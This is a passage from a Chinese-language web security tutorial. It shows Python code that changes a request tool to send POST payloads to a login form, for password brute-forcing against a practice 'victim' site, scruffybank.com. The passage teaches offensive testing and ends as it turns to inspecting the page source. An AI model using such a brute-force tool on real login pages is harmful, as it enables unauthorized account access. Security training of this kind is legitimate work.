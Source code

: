 ```py
    def run(self):
        try:
            start = time.time()
            if self.payload == "":
                 r = requests.get(self.url)
                 elaptime = time.time()
                 totaltime = str(elaptime - start)[1:10]
```

如果它不是空的，我们将使用`post`请求。

对于`post`请求，我们需要字典形式的有效负载：

```py
            else:
                list=self.payload.replace("="," ").replace("&"," ").split(" ")
                payload = dict([(k, v) for k,v in zip (list[::2], list[1::2])])
                r = requests.post(self.url, data = payload)
                elaptime = time.time()
                totaltime = str(elaptime - start)[1:10]
```

现在，我们将它作为一个带有`&`和`=`符号的字符串，因此我们将用一个空格替换符号，然后我们将使用空格拆分字符串，创建一个元素列表。

然后，我们使用该负载创建一个`post`请求，这些都是能够对登录表单执行密码强制的必要更改。现在，最好针对我们的受害者 web 应用进行测试。让我们做吧。

我们如何对表单进行暴力攻击？让我们打开一个有登录表单的页面，在我们的例子中是`www.scruffybank.com/login.php`。

在页面上单击鼠标右键，然后选择“查看页面源”：

![](img/00060.jpeg)
